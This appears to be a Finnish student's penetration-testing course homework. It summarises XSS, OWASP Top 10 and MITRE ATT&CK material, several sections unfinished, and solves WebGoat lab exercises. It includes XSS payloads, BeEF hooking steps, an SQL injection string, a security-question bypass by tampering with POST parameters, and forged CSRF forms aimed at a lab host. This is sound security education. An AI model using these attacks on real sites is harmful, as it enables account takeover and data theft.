

# h3 Attaaack!
  
Part of Penetration Testing ICT4TN027-3007 course of Haaga-Helia University of Applied Sciences held by Tero Karvinen. Course is in Finnish.  
    
Course page: https://terokarvinen.com/2021/penetration-testing-course-2022-spring/  
  
## x) Lue/katso/kuuntele ja tiivistä. Tässä alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen ja tiivistelmä riittää). Tiivistä ranskalaisilla viivoilla.
  
### € Percival & Samancioglu 2020: The Complete Ethical Hacking Course (video): Chapter 21: Cross Site Scripting (7 videota, noin 25 min)
      
* Videossa käytetään DVWA verkkosovelluksen XSS tehtäviä Metasploitable koneella  
* Haitallinen JavaScript -koodi ajetaan uhrin selaimessa
* Reflected XSS   
    - URL osoitteden manipulointia.  
    - Jos näet osoiterivillä ?-symbolin tarkoittaa se, että lomake ottaa vastaan parametreja, ja voit itse kokeilla asioita
    - `<script></script>` lomakekenttään.  
        + Kannattaa testata jollain harmittomalla ensin, esim alert("pwned")  
        + Osoitekenttään ilmestyy ? -jälkeen injektoimasi koodi. Saman URL:n voi jakaa pahaa-aavistamattomalle käyttäjälle jolloin syöttämäsi koodi ajetaan hänen koneellaan.  
* Stored XSS  
    - Haitallisen koodin sisällyttäminen itse verkkosivulle jolloin kaikki sivulla kävijät ajavat koodin omalla selaimellaan.   
    - `<script></script>` lomakekenttään.  
        + Kannattaa testata jollain harmittomalla ensin, esim alert("pwned")  
        + Tässä esimerkissä osoiteriville ei tule parametrit näkyviin.  
* BeEF hooking JS (BeEF XSS framework)  
    - Asetetaan kaikki sivuilla kävijät kiinni BeEF ohjauspaneeliin, jotta hyökkääjä voi ajaa haluamiaan komentoja kohteen selaimella.  
    - Beef paneelista kopioidaan hook.js sisältämä rivi XSS -hyökkäyskenttään.  
    - Jos vastaan tulee maksimimerkkimäärä:  
        + Inspect element > Etsi lomakekenttä > Muuta maxlength haluamaksesi > Kirjoita injektiosi loppuun > Vierailijan selain on käytössäsi    
* Suojatumiseksi:  
    - Pysy poissa sivuilta jotka eivät ole luotettavia  
    - Jos joudut avata epäluotettavan sivun, poista JavaScript käytöstä selaimesi asetuksista tai aseta epäluotettava sivu selaimen JavaScript asetusten kieltolistalle.  
  
### OWASP 10 2017 (pdf) A2 Broken Authentication, A3 Sensitive Data Exposure, A7 Cross Site Scripting. (Poimi kustakin kolmesta hyökkäyksestä, miten ne käytännössä tehdään)  

* A2 Broken Authentication  

    - Väärin tai heikosti toteutetut tunnistautumismenetelmät ja istuntojenhallinta jättävät sovellukset tai järjestelmät haavoittuviksi hyökkäyksille.   
    - Heikkouksia:  
        + Credential stuffing ja Brute Forcing on mahdollista heikosti suojattuun sovellukseen.  
        + Oletus käyttäjätunnukset ja salasanat.  
        + Heikot unohtuneen salasanan palautusmenetelmät kuten turvakysymykset kaksivaiheisen tunnistautumisen sijaan.  
        + Heikosti säilytetyt salasanat (plaintext, heikot hashit)  
        + Istuntotunnisteet näkyvissä tai helposti saatavilla.  
            * Tämä oli jossain vaiheessa ainakin kovin yleistä esim. muutamassa tunnetussakin verkkokaupassa, jossa sessioavain oli URL:ssa ja pystyin siirtämään istuntoni toiseen selaimeen todella vaivattomasti.  
        + Istuntoavainten heikko käsittely.     
            * Avaimia ei kierrätetä tai niitä ei vanhenneta uloskirjautumisen yhteydessä tai määrätyn ajan kuluttua.  
    - Käytännössä hyökkäys voidaan toteuttaa esimerkiksi käyttämällä jo tunnettua salasana- ja käyttäjätunnuslistaa (esimerkiksi aiemmista tietomurroista saatuja). Jos kohdesovellusta ei ole suojattu kunnolla hyökkääjä voi automatisoida Credential Stuffing -hyökkäyksen kokeilemaan eri yhdistelmiä, kunnes onnistunut kirjautuminen saadaan aikaiseksi. Hyökkäyksessä voidaan yhdistää tunnettuja oletuskirjautumistietoja, muista murroista saatuja käyttäjätunnus/salasana yhdistelmiä, sekä listoja yleisemmistä salasanoista.  

* A3 Sensitive Data Exposure

    - Heikosti suojattu herkkäluonteinen data on haavoittuva varkauksille tai muokkaamiselle hyökkääjän toimesta.  
    - Heikkouksia:  
        + Cleartext datan lähetys Internetin yli tai jopa sisäverkossa, datan säilytys cleartext muodossa  
        + Heikko tai vanhentunut kryptaus  
        + Palvelinsertifikaattien heikko vahvistaminen  
    - Termejä:  
        + Data at Rest  
        + Data in Transit  
    - Käytännössä hyökkäys voidaan toteuttaa esimerkiksi SQl-injektion avulla. Oletetaan, että kohdesovellus säilyttää herkkäluenteisia käyttäjätietoja, kuten henkilötunnus, palvelimellaan SQL-tietokannassa ja käyttäjä pystyy verkkosovelluksen lomakkeen kautta muokkaamaan tietojaan. Lomake validoi kenttänsä ainoastaan frontend -puolella ja tarkistaa, että pakolliset kentät täytetään, eikä numerokenttiin syötetä kirjaimia. Hyökkääjä valitsee lomakkeelta selkeästi String -muotoisen kentän ja syöttää siihen: `'; SELECT * FROM user;`. Yksinkertainen SQL-injektio jonka joutuu mahdollisesti toistamaan useamman kerran, koska käyttäjätietokannan nimi ei ole välttämättä hyökääjän tiedossa. Jos sovellus on heikosti suojattu brute forcetusta vastaan, voidaan hyökkäys automatisoida testaamaan yleisesti tunnetuimpia tietokantojen nimiä vastaan, mikä helpottaa hyökkääjän toimia. Käyttäjä saa lopulta käsiinsä kaikkien käyttäjien nimen, henkilötunnuksen ja muuta sensitiivistä dataa, koska sovelluksen omistaja ei ollut kryptannut tietoja.  

* A7 Cross Site Scripting

    - Haitallisen koodin ajaminen luotettavan näköisen sivuston kautta uhrin selaimessa. Voidaan käyttää mm. istuntoavainten varastamiseen tai uhrin ohjaamiseen haitalliselle sivustolle.  
    - Heikkouksia:   


### MITRE 2021: ATT&CK Enterprise Matrix. (Selitä tiivistelmässä käsitteet tactic, technique, procedure. Selitä kukin taktiikka (tactic) ja anna kustakin taktiikasta esimerkkitekniikka (technique tai subtechnique).  

* Tactics, Techniques and Procedures.   

    Taktiikat, tekniikat ja alatekniikat, sekä proseduurit muodostavat jatkumon joka alkaa taktiikoista (Mitä halutaan saavuttaa?) jatkuu tekniikoihin (Miten taktiseen tavoitteeseen päästään?) ja päättyy proseduureihin (Itse toteutus havainnoituna). 

    - Reconnaisance

        Tiedonkeruuvaihe jonka aikana pyritään saamaan kohteesta mahdollisimman paljon sellaista tietoa, jota voidaan käyttää hyökkäysmatriisin muiden vaiheiden toteutuksessa, kuten avainhenkilöitä, ip-osoiteavaruuksia, domain-nimiä jne. Keinot voivat olla aktiivisia, kuten porttien skannaus, jossa dataa lähetetään itse kohdeverkkoon tai passiivisia joissa kohdeverkkoon ei kohdisteta suoria toimenpiteitä, kuten verkkosivujen kartoitus, sosiaalisen median tutkiminen.

        Toteutus yleensä järjestyksessä hiljaisimmasta keinosta pikkuhiljaa volyymiä nostaen äänekkäämpiin keinoihin. Tällä tavalla voidaan mahdollisesti saada selville kuinka tarkasti kohdejärjestelmän turvallisuutta monitoroidaan, vai monitoroidaanko sitä lainkaan. Ikään kuin selvitetään reagoiko kukaan, kun etuovella pidetään meteliä.   
          
        Lähde:   
        https://attack.mitre.org/tactics/TA0043/
  
        + Technique: T1595 Active Scanning: Vulnerability Scanning

            Kohdejärjestelmän aktiivista skannausta heikkouksien löytämiseksi. Voidaan käyttää etsimään avoimia portteja ja mitä palveluita nämä mahdollisesti sisältävät tai selvittämään verkkosivun web-palvelimen ja sen versionumeron. Aktiivista heikkouksien skannausta ei voida helposti estää, mutta sen havaitseminen on mahdollista jos verkkoliikeenteen määrä ja laatua tarkkaillaan ja siinä nähdään muutoksia. 

            Lähde:  
            https://attack.mitre.org/techniques/T1595/002/         
  
    - Resource Development

        Resurssienkehitys. Tässä vaiheessa pyritään hankkimaan hyökkäyksen myöhemmissä vaiheissa käytettäviä resursseja kuten infrasturuktuuria (palvelimet, domainit, palvelut jne.), tilejä (sähköposti, sosiaalinen media jne.) tai työkaluja (haittaohjelmia, skriptejä, etähallintakeinoja jne.). Resursseja voidaan hankkia ostamalla, kehittämällä itse tai hankkimalla laittomin keinoin.  
          
        Lähde:  
        https://attack.mitre.org/tactics/TA0042/

        + Technique: T1584 Compromise Infrastructure

            Tavoitteena on saada käyttöönsä kolmannen osapuolen infrastruktuuria, kuten palvelimia tai domaineja joita voidaan käyttää hyökkäyksen muissa vaiheissa hyväkseen. Hyökkääjä voi esimerkiksi saada haltuunsa lukuisia toisiinsa liittymättömiä verkkoja ja käyttää näitä bottiverkon luomiseen koordinoitujen hyökkäysten suorittamiseksi.  

            Lähde:  
            https://attack.mitre.org/techniques/T1584/


    - Initial Access

        Pyritään löytämään avoin tai edes raollaan oleva ovi kohdeverkkoon. Keinoina mm. erilaiset phishing tekniikat ja verkkoon avoimista järjestelmistä löydetyt heikkoudet.  

        Lähde:  
        https://attack.mitre.org/tactics/TA0001/

         + Technique: T1195 Supply Chain Compromise

            Tuotteiden tai niiden toimituksen manipulointia ennen niiden vastaanottamista. Esimerkiksi haitallisen koodin esitteleminen johonkin open-source projektiin, jota jokin sovellus kohdejärjestelmässä tarvitsee toimintaansa (dependency).

            Lähde:  
            https://attack.mitre.org/techniques/T1195/

    - Execution  

        Ajetaan haitallista koodia joko paikallisissa- tai etäjärjestelmissä. Tämän vaiheen tekniikoita käytetään usein yhteistyössä muiden vaiheiden kanssa laajempien tavoitteiden saavuttamiseksi.  

        Lähde:  
        https://attack.mitre.org/tactics/TA0002/

        + Technique: T1569 System Services

            Järjestelmän palveluiden tai demonoiden käyttäminen, uusien palveluiden luominen kohdetietokoneeseen. Haitallisen koodin upottaminen palveluun, joka käynnistää automaattisesti järjestelmän käynnistyessä voi esimerkiksi olla keino saavuttaa pysyvyyttä järjestelmään,  mikä toimii myös esimerkkinä muiden taktiitoiden tavoitteiden saavuttamisesta (Persistence). 

            Lähde:  
            https://attack.mitre.org/techniques/T1569/

    - Persistence

        Pysyvyyden saavuttaminen pitää sisällään kaikki tekniikat jotka lisäävät hyökkääjän pysyvyyttä kohdejärjestelmässä, kuten esimerkiksi edellisen kohdan System Services.  

        Lähde:  
        https://attack.mitre.org/tactics/TA0003/

        +  Technique: T1176 Browser Extensions  

            Haitallisten selainlisäosien asentaminen jolloin hyökkääjällä on pääsy kaikkeen, mitä selaimella tehdään. Lisäosa voidaan asentaa useita eri reittejä, kuten haitallisen lisäosan saaminen muuten lailliseen sovelluspankkiin tai social engineering keinoilla saada käyttäjä itse asentamaan lisäosa. Laillisesta lähteestä asentamisen jälkeen haitallinen lisäosa voi myös manipuloida oman päivityslähteensä osoittamaan hyökkääjän hallinnoimalle palvelimelle. Omasta kokemuksesta Service Deskissä osaan kertoa, että tämä on suhteellisen yleinen keino työaseman saastuttamiseksi.   

            Lähde:  
            https://attack.mitre.org/techniques/T1176/

    - Privilege Escalation

        Kun kohdejärjestelmään/sovellukseen on muodostettu jalansija ja saatu toimivat käyttäjätunnukset tai haltuunotettu jokin prosessi, ovat ne usein oikeuksiltaan rajoitetut. Privilege Escalation vaiheessa hyökkääjä pyrkii korottamaan oikeuksiaan jotta asetut tavoitteet saadaan toteutettua. 

        Lähde:  
        https://attack.mitre.org/tactics/TA0004/

        + Technique: T1068 Exploitation for Privilege Escalation 

            Hyökkääjä pyrkii käyttämään sovellusten haavoittuksia oikeuksien korottamiseksi esimerkiksi käyttämällä jotakin tunnettua ohjelmointivirhettä järjestelmäprosesseissa. Tällainen bugi voi esimerkiksi antaa normaalikäyttäjän suorittaa jonkin system prosessin kautta tehtäviä järjestelmänvalvojan oikeuksilla.  

            Lähde:  
            https://attack.mitre.org/techniques/T1068/

    - Defense Evasion

        Piiloudutaan onnistumisen tunkeutumisen jälkeen yrittämällä peittää jälkiä tunkeutumisesta, poistamalla käytöstä kohdejärjestelmän turvallisuusratkaisuja kuten virustorjunta ja palomuuri tai kryptaamalla dataa ja skriptejä. Tunkeutuja voi myös naamioitua järjestelmäprosessiksi tai piilottaa oman koodinsa tällaisen prosessin sisään. Myös haitallisen verkkoliikenteen naamioiminen normaaliksi liikenteeksi on yksi tällainen keino.

        Lähde:  
        https://attack.mitre.org/tactics/TA0005/

        + Technique: T1562 Impair Defenses: Downgrade Attack

                Pyritään korottamaan oikeuksia käyttämällä jotakin järjestelmätyökalujen vanhempaa versiota, joka ei tue uusimpia turvallisuuskäytänteitä.

                Lähde:  
                https://attack.mitre.org/techniques/T1562/010/

    - Credential Access

        Tavoitteena hankkia käyttäjätilien tunnuksia ja salasanoja järjestelmään pääsyn saamiseksi tai uusien tunnusten luomiseksi. 

        Lähde:  
        https://attack.mitre.org/tactics/TA0006/

        + Technique: T1555 Credentials from Password Stores

            Salasanojen tai niiden hashien hankkiminen sijainneista joissa niitä tunnetusti säilytetään. Yhtenä esimerkkinä minulle tulee mieleen Mimikatz työkalu ja Windowsin (aiempi?) tapa tallentaa käyttäjän kirjautumistiedot RAM -muistiin suolaamattomalla NTML -salauksella, josta ne voidaan Mimikatz työkalun avulla saada hyökkääjän käyttöön. Sovellus vaatii suorittamisen kohdetyöasemalla

            Lähteet:  
            https://attack.mitre.org/techniques/T1555/  
            http://woshub.com/how-to-get-plain-text-passwords-of-windows-users/

    - Discovery 

        Ympäristö tutuksi. Kun järjestelmän yhteen osaan on päästy sisään, alkaa tutustumisvaihe. Hankitaan tietoa järjestelmästä, sisäisestä verkosta ja yleisesti näkyvistä heikkouksista sekä osista joita voidaan ottaa haltuun.  

        Lähde:  
        https://attack.mitre.org/techniques/T1016/

        + Techniques

            Tässä vaiheessa on todella paljon erilaisia tekniikoita, joista suurin osa on normaalin järjestelmänvalvojankin käyttämiä. Hankitaan tietoa laitteistosta, asennetuista sovelluksista, tarkistetaan verkon konfiguraatio.  

    - Lateral Movement

        Järjestelmän sisällä liikkuminen. Ensimmäinen auennut ovi ei useinkaan johda aarrekammioon, joten hyökkääjän pitää lähteä liikkeelle. Tämä voidaan toteuttaa asentamalla omia etähallintatyökaluja, korottamalla oikeuksia tai hankkimalla pääsy uusiin käyttäjätunnuksiin esimerkiksi Spearphishingin avulla.  

        Lähde:  
        https://attack.mitre.org/tactics/TA0008/

        + Technique: T1534 Internal Spearphishing

            Käytetään jo hallussa olevaa sähköpostitiliä ja pyritään hankkimaan pääsy esimerkiksi jonkun korkeammilla oikeuksilla varustetun käyttäjän tunnuksiin ja sitä kautta järjestelmiin joihin aiemmin ei ole ollut pääsyä. Internal Spearphishing käyttää hyväkseen jo olemassa olevaa luottamussuhdetta kohteen ja sähköpostitilin oikean hallitsijan välillä ja voidaan toteuttaa phishing linkkien tai tiedostojen avulla.

            Lähde:  
            https://attack.mitre.org/techniques/T1534/

    - Collection

        Keräillään eli pyritään saamaan haltuunsa kohdejärjestelmässä sijaitsevaa dataa, joka edistää asetettujen tavoitteiden toteutumista. Tällaista dataa on tyypillisesti kovalevyillä, selaimissa, ääni- ja videotiedostoissa, sekä sähköpostissa sijaitseva data.  

        Lähde:  
        https://attack.mitre.org/tactics/TA0009/

        + T1123 Audio Capture

            Valjastetaan haltuunotetun koneen äänilaitteet nauhoittamaan ympäristöä ja päästään täten ns. kärpäseksi katossa esimerkiksi erilaisiin kokouksiin.

            Lähde:  
            https://attack.mitre.org/techniques/T1123/

    - Command and Control

        Kommunikaatiovaihe. Hyökkääjä pyrkii muodostamaan kommunikaatiokanavat kohdejärjestelmään ja mahdollisesti naamiomaan kommunikaatioon käytettävän datan.  

        Lähde:  
        https://attack.mitre.org/tactics/TA0011/

        + Technique:

    - Exfiltration

        Yritetään varastaa data, joka hyökkäyksen aikana on kerätty esimerkiksi käyttämällä muodostettua Command and Control kanavaa.  

        Lähde:  
        https://attack.mitre.org/tactics/TA0010/

        + 

    - Impact

        Datan manipulointiin, häirintään tai tuhoamiseen keskittyvä vaihe.

        Lähde:  
        https://attack.mitre.org/tactics/TA0040/

        + Technique: 

* 

* 

## z) Cross site story. Kirjoita kuvitteellinen esimerkki XSS-hyökkäyksestä. Tee mahdollisimman yksinkertainen esimerkki. Voit vaikkapa ottaa haltuun weppisivun ylläpitäjän oikeudet viemällä keksin. Tässä alakohdassa ei tarvitse tehdä mitään tietokoneella, pelkkä tarina riittää. Tarkoituksena on ymmärtää XSS-hyökkäyksen kokonaisuus ennen sormiharjoituksia. Voi halutessasi myös piirtää itse kaavion / sarjakuvan.

Tee selväksi ja erottele

    Mitä hyökkääjä tekee
    Mitä kohdehenkilö tekee
    Mitä sivua / palvelinta kohdehenkilö surffailee
    Missä JavaScriptit ajetaan
    Miten keksi päätyy hyökkääjälle
    Miten hyökkääjä hyödyntää keksiä?
    Mitä hyökkääjä pääsee tekemään (mikä ei onnistuisi ilman hyökkäystä)?

Tee ja raportoi

## a) Vuohen uudet seikkailut. Ratkaise WebGoatista tehtävät

* A2 Broken authentication:
    - Authentication bypasses: 2 2FA Password Reset
        Tehtävänantona on ohittaa kuvitellun tilin turvakysymykset kaappaamalla lähetetty POST request ja muokkaamalla sen parametreja ennen kuin ne päästetään vastaanottavalle palvelimelle. Esimerkkinä WebGoat käyttää tapausta vuodelta 2016, jossas käyttäjä onnistui ohittamaan turvakysymykset kaappamalla POST paketin proxyn avulla ja poistamalla turvakysymysparametrit kokonaan päästen tämän jälkeen asettamaan uuden salasanan ikäänkuin turvakysymyksiin olisi vastattu oikein (https://henryhoggard.co.uk/blog/Paypal-2FA-Bypass).  
          
        Minulla on asennettunna Kali Linux Virtualbox käyttöjärjestelmääni OWASP-ZAP työkalu, jonka avulla olen luonut välityspalvelimen, jonka kautta kaikki Firefoxin liikenne kierrätetään. ZAP-työkalun voi asettaa kuuntelemaan sivustoa ja pysäyttämään kaikki paketit, tai triggeröidä sen odottamaan tietynlaisia paketteja pysäytettäväksi.  

        * OWASP-ZAP asetukset (Tools > Options > Local Proxies):  
            + Address: mykali  
                * Muokattu /etc/hosts tiedostoon localhostin tilalle mykali, koska Firefoxin uusin versio estää proxyjen käytön localhost hostnamella.  
            + Port: 8090 (tai muu vapaa portti)  
        * Firefox Proxy asetukset (löytyvät helpoiten, kun FireFoxin Settings valikkoon kirjoittaa Proxy)  
            + Manual proxy configuration  
                * HTTP Proxy: 127.0.0.1  
                * Port: 8090 (tai sama kuin ZAP -asetuksissa)  
                * Valinta kohdassa 'Also use this proxy for HTTPS  
            * Firefox ainakin itselläni valittaa näillä asetuksilla epäluotettavasta sertifikaatista, mutta tämän voi kiertää valitsemalla Advanced... ja Accept the risk and continue. Webgoatin sivulle jää myös pysyvästi näkyviin tuo sertifikaattiherja peittämään pienen osan näkymää, mutta ei haittaa käyttöä.    
          
        Itse tehtävän aloitin laittamalla ZAP:in katkaisemaan kaiken WebGoatin liikenteen Vihreästä ympyräpainikkeesta ylävalintanauhalla.  
        Tämän jälkeen syötin lomakkeen kenttiin tekstit "test" ja "test" ja lähetin lomakkeen. Yritin poistaa kaapatusta sanomasta tehtävän esimerkin mukaisesti SecurityQuestion parametrit kokonaan, mutta tämä palautti vastauksen:
        
        >  "Not quite, please try again.".  

        Tässä vaiheessa laitoin WebGoatin vihjeet auki, josta sain parin klikkauksen jälkeen seuraavan tiedon:  

        > "You do want to tamper the security question parameters, but not delete them"  

        Kokeilin seuraavaksi muuttaa secQuestion0 ja secQuestion1 parametrien nimiksi "Something" ja "Else" testi-mielessä, mutta tämäkin epäonnistui.  

          
          
        Seuraavaksi testasin, mitä tapahtuisi, jos muutan turvakysymysten järjestysnumerot suuremmiksi.  
        Alkuperäinen välityspalvelimen kaappaama paketti:  
           

        Muokattu paketti, joka lähetetään eteenpäin tunnistuspalvelimelle (0->2, 1->3):   
          
          
        > "Congrats, you have successfully verified the account without actually verifying it. You can now change your password!"  

        Selvästikkään turvakysymysten parametrien nimeksi ei voida antaa mitä tahansa arvoja, kuten ensimmäisestä Something Else -kokeilustani näkyy.

        On mahdollista, että sovelluksen tietokannssa on määritelty käyttäkä tauluun useampi kuin kaksi turvakysymystä, mutta käyttäjältä kysytään frontend puolella vain kahden määritystä/kahteen vastaamista jolloin loput turvakysymyksistä saavat tyhjän arvon, koska niille on määritelty ehto isblank=True.

        id | secQuestion1 | secQuestion1Answer | secQuestion2 | secQuestion2Answer | secQuestion3 | secQuestion3Answer | secQuestion4 | secQuestion4Answer |
        ---|---|---|---|---|---|---|---|---
        12309746 | What is the name of your favorite teacher? | something | What is the name of the street you grew up on? | something | blank | blank | blank | blank

        Tunnistuksen tekevä koodi haluaa ainoastaan, että kahteen turvakysymykseen vastataan oikein, ottamatta kantaa siihen, mitkä turvakysymykset ovat kyseessä. Esimerkiksi jotenkin näin:  

            $   ## Autentikointifunktio, parametrit eroteltu apufunktiossa ennen tätä vaihetta siten, että
            $   ## selaimelta tuleva secQuestion1="vastaus" -> secQ1 = secQuestion1 ja answ1 = "vastaus" jne.
            $   function securityQuestionAuth(secQ1, answ1, secQ2, answ2, userId)
            $   
            $   ## Luodaan string muuttujat, jotka vastaavat tietokannan turvakysymysten vastaus -kolumnien nimiä
            $   secQ1Answer = secQ1 + "Answer"
            $   secQ2Answer = secQ2 + "Answer"
            $   
            $   ## Tarkistetaan, että tietokannasta löytyy oikeat kentät, muuten palautetaan False ja autentikointi epäonnistuu
            $   Try
            $       correctAnswer1 = databace.connect("SELECT secQ1Answer FROM user WHERE userId = userId;") 
            $       correctAnswer2 = databace.connect("SELECT secQ2Answer FROM user WHERE userId = userId;") 
            $   Catch (database_exception)
            $       return False
            $   
            $   ## Määritetään muuttujat joiden avulla tehdään autentikoinnin varmistus
            $   ## Tämä on superturvallista, koska molempien tulee olla True jotta autentikonti onnistuu
            $   authCheck1 = False   
            $   authCheck2 = False
            $   
            $   ## Verrataan käyttäjän antamaa syötettä tietokannasta haettuun vastaukseen
            $   ## Note to self: ISBLANK ehto vain testaukseen, poista ennen kuin laitetaan tuotantoon (Ei kriittinen koska
            $   ## turvakysymykset 1 ja 2 eivät ole koskaan tyhjiä)
            $   IF correctAnswer1 IS answ1 OR ISBLANK(correctAnswer1)
            $       authCheck1 = True
            $   IF correctAnswer2 IS answ2 OR ISBLANK(correctAnswer2)
            $       authCheck2 = True
            $   
            $   IF authcheck1 IS True AND authcheck2 IS True
            $       return True


* A3 Sensitive data exposure  

    - Insecure Login: 2 Let's try  

        Tehtävänä on klikata Login -painiketta ja kaapata HTTP POST -paketti, joka pitää sisällään sovellukseen kirjautumistunnukset clear-text muodossa.  
        Valitsin työkalukseni Wireshark pakettianalyysityökalun, jonka avulla pystyn kaappaamaan kaikki koneeltani lähtevät ja sisääntulevat paketit ja tarkkailemaan niiden sisältämää dataa.  
        Avasin WireSharkin ja valitsin tarkkailtavaksi verkkoadapteriksi 'any' eli kaikki sisään- ja ulostuleva liikenne kaapataan, minkä jälkeen käynnistin WireShark monitoroinnin vasemman yläkulman selkäevä -kuvakkeesta. Dataa tuli paljon vaikka virtuaalikoneeni ei ole kiinni oikeassa Internetissä (iso osa datasta on WebGoatin lähettelemiä paketteja). Koska halusin karsia tätä määrää huomattavasti asetin hakupalkkiin filtterin: http.request.method = "POST", koska tehtävässä tulee kaapata kirjautumislomakkeelta lähetettävä paketti.  
        Klikkasin login ja ja Wireshark kaappasi seuraavan paketit, josta nähdään suoraan tarvittavat tunnukset sekä todella paljon muuta dataa, kuten käytetyt siirtoprotokollat, selaimen ikkunan koko, istunnon evästeet ym.:  
          

        Syötettyäni tunnukset WebGoatiin tehtävä tuli suoritetuksi. 
        > Congratulations. You have successfully completed the assignment.  

* A7 Cross Site Scripting (XSS): Cross site scripting  
      
    - 2 What is XSS?  

        Tehtävä esittelee istuntoevästeet. Useat sivustot käyttävät näitä paikallisesti tallennettuja evästeitä tunnistamaan käyttäjän istunnon, kun tämä käyttää verkkosovellusta samalta selaimelta. Välilehtiäkin voi vaihtaa, mutta istuntoeväste muistaa käyttäjän ja jatkaa automaattisesti samaa istuntoa kunnes kyseinen eväste (toivottavasti) poistetaan, kun käyttäjä kirjautuu sivulta pois tai esim. automaattisesti tietyn ajan päästä selaimen sulkemisesta.  

        Tehtävä pyysi avaamaan uuden välilehden ja siihen saman sivun kuin alkuperäisellä, minkä jälkeen testaamaan selaimeen syötettyä scriptin pätkää `javascript:alert(document.cookie)` molemmilla välilehdillä. Oman Firefox selaimeni ei anna syöttää tuota Javascriptin pätkää suoraan selaimen osoiteriville joten avasin Developer Toolsin (Ctrl+Shift+I) ja syötin koodin console välilehdelle. Sivulle hyppäsi varoitusikkuna, joka ilmoitti käytössä olevan evästeen, joka oli sama molemmissa ikkunoissa.  

    - 7 Try It! Reflected XSS  

        Tehtävänä on löytää oheiselta tilauslomakkeelta kenttä, joka on haavoittuva injektiolle.

        

        Aloitin testaamalla, miten lomake toimii. Vaihdoin tilausmääriä ja valitsin UpdateCart. Lomake palauttaa klikkauksen jälkeen kaikki arvot takaisin oletuksiin, lähettää tilauksen ja muuttaa loppusumman valintojen mukaiseksi. Tähän hyväksytään myös negatiivisia lukuja. UpdateCart siis toimii myös Purchase painikkeena. Testailin vielä ja molemmat painikkeet tekevät samaa toimintoa, mutta tämä ei ole oleellista ratkaisun saamiseksi.   

        Seuraavaksi kokeilin syöttää seuraavan skriptin tilausmääräkentän lukujen perään:  
        `<script>console.log('Hello')</script>`

        Näissä kentissä on validointi käytössä, kuten kuvakaappauksesta näemme: 
        
        

        Siirryin saman koodinpätkän kanssa luottokortin numero-kenttään: 

          

        Lopputuloksena konsoliin ilmestyi teksti Hello ja tehtävänumero muuttui vihreäksi. Ilmeisesti tehtävässä on vähän vikaa WebGoatissa, koska virheviesti kuitenkin säilyi näkyvissä ruudulla.  

* A8:2013 Request Forgeries: Cross-Site Request Forgeries  
      
    - 3 "Basic Get CSRF Exercise"

        Tehtävänä on käyttää sivulla olevaa lomaketta jostain toisesta lähteestä.  
        Jos lomake lähetetään vain WebGoatin kautta saadaan seuraavalla sivulla palautteeksi:  
        	
            flag	null
            success	false
            message	"Appears the request came from the original host"

        Tässä vaiheessa minulle iski pieni hämmennys ja en hetkeen tiennyt, mitä tekisin. Avasin kuitenkin Developer Toolsit ja katselin tarkemmin lomakkeen (painikkeen) tietoja.  

        Loin itsellen uuden .html tiedoston johon laitoin ainoastaan tuon lomakkeen tiedot, muutin lomakkeen toiminnon kohteen relative linkistä palvelimen osoitteeksi, ja poistin csrf -kentästä 'hidden' arvon:  
        ``` 
        <!DOCTYPE html>
        <html>
            <body>
                <form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://192.168.56.7:8080/WebGoat/csrf/review">
                    <input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
                    <input class="form-control" id="reviewStars" name="stars" type="text">
                    <input name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
                    <input type="submit" name="submit" value="Submit review">
                </form>
        </body>
        </html>
        ``` 

        Avasin uuden luomani sivun selaimeen ja klikkkasin linkkiä:  

        

        Testasin vielä muokata luomaltani sivulta csfr -tokenin arvoksi 'true':  

        

        CSFR-tokenin arvon muuttaminen siis muuttaa sivun käyttäytymistä. Miksi?  

        
    - 4 "Post a review on someone else’s behalf".  
      
        Tehtävänä on lähettää arvostelu toiselta koneelta. Lähetin testin vuoksi yhden arvostelun:

        

        Tämän jälkeen tutkin hieman Developer Toolsin avulla kyseistä lomaketta ja tuo oli hyvin samankaltainen edellisen kanssa paitsi csfr kentän sijaan piilotettuna kenttänä oli ValidateRequest ja oletettavasti käyttäjän tunnistamiseen käytettävä koodi.  
        
        Yritin ensin suorittaa samalla tyylillä, kuin edellinen tehtävä, mutta tämä ei onnistunut samalta koneelta. Tehtävässä pitäisi käyttää WebWolfia, mutta en jaksa, joten asensin WebGoatin uudelle virtuaalikoneelle, otin siihen yhteyden Kali Linux koneeltani ja loin uuden käyttäjän. Pidän tästä ratkaisusta muutenkin enemmän, koska sovelluksen palvelin ei ole samalla koneella, jota käytän tunkeutumiseen joten se lisää immersiota tehtävien tekoon.  
        * Jotta WebGoatin standalone olisi saatavilla muualtakin kuin localhostista, pitää siihen käynnistäessä määrittää server.address parametri:  
        `java -jar webgoat-server-8.0.0.M26.jar --server.address=0.0.0.0`
        * Käytän vanhempaa versiota WebGoatista, koska uusin standalone -versio antaa JavaUnsupported virheitä kaikilla virtuaalikoneillani ilmoittaen, että asennettu Java -versio on liian vanha. Tämä on erikoista, koska OpenJDK versioni on uusin saatavilla oleva. Voisin tietty käyttää tuota tarjolla olevaa Docker -versiota, mutta en halua asentaa dockeria ja minulla sattuu tämä toimiva standalone versio WebGoatista olemaan.  

        Tein taas pienen .html -tiedoston johon kopioin lomakkeen rivit WebGoatista:  
        ``` 
        <!DOCTYPE html>
        <html>
            <body>
                <form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://192.168.56.7:8080/WebGoat/csrf/review">
                    <input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
                    <input class="form-control" id="reviewStars" name="stars" type="text">
                    <input name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
                    <input type="submit" name="submit" value="Submit review">
                </form>
        </body>
        </html>
        ```
        Lomake siis action toiminnon kautta lähettää (POST-kutsu) tiedot määritettyyn url osoitteeseen.  

        Testasin tiedostoa selaimelta ja lopputulos oli onnistunut:  
        ```
        lessonCompleted	true
        feedback	"It appears you have submitted correctly from another site. Go reload and see if your post is there."
        output	null
        ```


